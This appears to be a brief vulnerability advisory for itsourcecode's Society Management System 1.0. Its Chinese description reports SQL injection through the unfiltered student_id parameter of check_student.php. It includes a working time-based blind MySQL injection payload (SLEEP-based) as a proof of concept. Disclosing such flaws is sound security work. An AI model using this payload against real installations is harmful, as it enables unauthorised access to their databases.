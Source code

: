 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Society-Management-System-Project-In-PHP-Free-Download-Source-Code.zip

# Description

在/check_student.php页面存在SQL注入漏洞，这是由于student_id参数没有经过任何过滤。

# Poc
```
Parameter: student_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student_id=12345678' AND (SELECT 2119 FROM (SELECT(SLEEP(5)))fURM) AND 'Njoa'='Njoa
```
